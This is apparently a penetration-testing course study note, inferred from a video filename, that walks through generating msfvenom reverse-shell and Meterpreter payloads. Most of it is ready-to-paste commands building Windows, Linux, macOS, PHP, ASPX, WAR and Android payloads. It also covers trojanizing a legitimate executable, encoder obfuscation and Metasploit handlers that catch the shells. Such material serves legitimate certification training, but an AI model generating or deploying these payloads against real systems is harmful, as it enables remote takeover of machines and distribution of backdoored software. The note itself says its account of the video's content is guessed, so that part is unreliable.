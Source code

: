 # What the video covers (Introduction / big picture)
Note: No transcript was provided. The following is a conservative, eJPT-focused summary inferred from the filename “01 - Generating Payloads With Msfvenom.mp4” within “01-Payloads.”

The video likely introduces generating reverse shell and Meterpreter payloads with msfvenom (part of Metasploit Framework). It covers:
- Picking the right payload (OS, architecture, staged vs. stageless)
- Setting LHOST/LPORT correctly
- Choosing output formats (exe, elf, raw shellcode, aspx/asp/war/php, psh, c)
- Optional encoders and iterations, and bad character avoidance
- Saving to file, verifying, and preparing a Metasploit handler to catch the shell

# Flow (ordered)
1. Identify target OS, architecture, and delivery context (Windows EXE, Linux ELF, web shell, raw shellcode, etc.).
2. List available payloads, formats, and encoders to pick the right combo.
3. Set your LHOST (usually VPN/tun0 IP) and LPORT.
4. Generate the payload with msfvenom, specifying payload, format, platform/arch as needed.
5. Optionally apply encoders and exclude bad chars (for exploit dev/shellcode cases).
6. Save output, verify type, and mark as executable if needed.
7. Configure a Metasploit multi/handler to receive connections and launch it.
8. Transfer and execute the payload on the target in a controlled lab.

# Tools highlighted
- msfvenom (Metasploit Framework payload generator)
- msfconsole (Metasploit console for multi/handler)
- Linux basics: ip/ifconfig, file, chmod
- Optional: grep/awk for quick filtering

# Typical command walkthrough (detailed, copy-paste friendly)
Set your attacking IP and a default port (adjust interfaces/ports as needed):
```bash
# Set LHOST from tun0 (e.g., HTB/THM VPN). Change tun0 to your interface if needed.
export LHOST=$(ip -4 addr show tun0 | awk '/inet /{print $2}' | cut -d/ -f1)
export LPORT=4444

# Verify
echo "$LHOST:$LPORT"
```

Discover payloads, formats, encoders:
```bash
msfvenom -l payloads | grep -E '^(windows|linux|osx|php|java|android|cmd|python|ruby|php)/' | head -n 40
msfvenom -l formats
msfvenom -l encoders
```

Windows 64-bit Meterpreter (staged) EXE:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o win64-meterpreter-rev$LPORT.exe
```

Windows 64-bit Meterpreter (stageless) EXE:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o win64-meterpreter-rev$LPORT-stageless.exe
```

Windows 32-bit Meterpreter with encoder (demo; for lab use):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -e x86/shikata_ga_nai -i 5 -f exe -o win32-meterpreter-enc-rev$LPORT.exe
```

Linux x64 reverse shell ELF:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o lin64-shell-rev$LPORT.elf
chmod +x lin64-shell-rev$LPORT.elf
```

macOS x64 reverse shell Mach-O:
```bash
msfvenom -p osx/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f macho -o mac64-shell-rev$LPORT.macho
chmod +x mac64-shell-rev$LPORT.macho
```

Raw shellcode (C array) with bad char avoidance (exploit dev):
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f c -a x86 --platform windows -b '\x00\x0a\x0d' -o shellcode_rev$LPORT.c
```

PowerShell payload (script output):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f psh -o meterpreter_rev$LPORT.ps1
```

ASP / ASPX web payloads (IIS):
```bash
# Classic ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f asp -o shell_rev$LPORT.asp

# ASPX
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f aspx -o shell_rev$LPORT.aspx
```

PHP web reverse shell:
```bash
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o shell_rev$LPORT.php
```

Java WAR (for Tomcat):
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f war -o shell_rev$LPORT.war
```

Android APK (lab-only):
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -o payload_rev$LPORT.apk
```

Optional: Inject into a template executable (lab-only; maintain functionality with -k):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -x /path/to/legit_app.exe -k -f exe -o trojaned_app.exe
```

Verify output files:
```bash
file win64-meterpreter-rev$LPORT.exe
file lin64-shell-rev$LPORT.elf
```

Start a Metasploit handler (adjust payload to match what you created):
```bash
msfconsole -q -x "use exploit/multi/handler; \
set PAYLOAD windows/x64/meterpreter/reverse_tcp; \
set LHOST 0.0.0.0; \
set LPORT $LPORT; \
set ExitOnSession false; \
run -j"
```

Alternative: handler for Linux shell:
```bash
msfconsole -q -x "use exploit/multi/handler; \
set PAYLOAD linux/x64/shell_reverse_tcp; \
set LHOST 0.0.0.0; \
set LPORT $LPORT; \
set ExitOnSession false; \
run -j"
```

# Practical tips
- Staged vs. stageless: staged (…/reverse_tcp) fetches the stage after connect; stageless (…_reverse_tcp) is single-shot. Stageless can be more reliable across some network/AV conditions but is larger.
- Architecture matters: match x86 vs x64 to the target. If unsure on Windows, x86 payloads often run on x64, but prefer correct arch.
- LHOST pitfalls: in VPN labs use your tun0 IP; inside VM-within-VM scenarios double-check the correct interface.
- File format: choose a format that matches the target environment (exe, elf, aspx, asp, war, php, psh).
- Encoders: use for bad char avoidance or obfuscation in lab. They are not an AV bypass silver bullet.
- Bad chars: when generating shellcode for buffer overflow exploits, exclude \x00, \x0a, \x0d at minimum (target-specific).
- Permissions: mark ELF/Mach-O as executable with chmod +x; Windows EXE doesn’t need chmod but may need Unblock in some contexts.
- Handlers: your handler payload must exactly match what you generated (OS, arch, staged/stageless).
- Troubleshooting: try different LPORTs; check host firewalls; verify the payload executes locally; confirm no proxy interception; use tcpdump/wireshark to see if SYNs arrive.
- Ethics: use only in legally authorized labs and assessments.

# Minimal cheat sheet (one-screen flow)
```bash
# 1) Set your callback IP/port
export LHOST=$(ip -4 addr show tun0 | awk '/inet /{print $2}' | cut -d/ -f1)
export LPORT=4444

# 2) Pick payload and format (examples)
msfvenom -l payloads | grep '^windows/x64/meterpreter' | head
msfvenom -l formats

# 3) Generate payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o win64-metz-rev$LPORT.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o lin64-shell-rev$LPORT.elf
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o shell_rev$LPORT.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f war -o shell_rev$LPORT.war
chmod +x lin64-shell-rev$LPORT.elf

# 4) Optional enc/avoid bad chars (shellcode)
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f c -b '\x00\x0a\x0d' -o sc.c

# 5) Start handler
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT $LPORT; set ExitOnSession false; run -j"
```

# Summary
This lesson centers on msfvenom for generating payloads tailored to the target OS, architecture, and delivery vehicle. You learn to:
- Enumerate payloads, formats, and encoders
- Set LHOST/LPORT properly
- Generate common payloads (Windows EXE, Linux ELF, PHP/ASPX/WAR web shells, raw shellcode, PowerShell)
- Use encoders/bad-char options for exploit development scenarios
- Launch a matching Metasploit handler to receive shells

Without a transcript, the commands above reflect standard, exam-relevant msfvenom usage patterns you can safely practice in your lab.